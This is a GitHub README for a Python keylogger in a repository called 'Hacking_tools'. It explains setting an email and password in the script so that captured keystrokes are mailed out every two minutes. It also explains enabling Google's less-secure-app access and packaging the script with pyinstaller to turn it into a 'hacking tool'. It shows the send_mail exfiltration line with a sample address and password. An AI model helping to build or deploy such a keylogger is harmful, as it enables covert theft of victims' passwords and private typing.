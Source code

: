 # Hacking_tools

# Keylogger

A keylogger, sometimes called a keystroke logger or system monitor, is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. Keylogger software is also available for use on smartphones, such as the Apple iPhone and Android devices but it is a simple keylogger program.

[+] Requirements: Internet and Python IDEs   Ex: Pycharm, PyDev, IDLE, Spyder etc.. 


[+] Before executing keylogger.py make sure that you have provided your proper emailid and password in the program that shown below. 

self.send_mail("Your email id ", "Your Password", self.log)

For Ex: self.send_mail("arnavkumar6360@gmail.com", "abc123def456", self.log)

Timer is set to 120s. So at every 2min u will get a mail. For better result please set timer to high. ( timer = threading.Timer(5, self.report) )

[+] Also enable the Less secure app access of your google account to receive the mail send by the program.

Link to enable Less secure app access https://myaccount.google.com/lesssecureapps


[+] Note: Its just a program, to convert this into a hacking tool we need to package this program by pyinstaller.exe. If u want to know more about this please contact through this mail arnavkumar6360@gmail.com
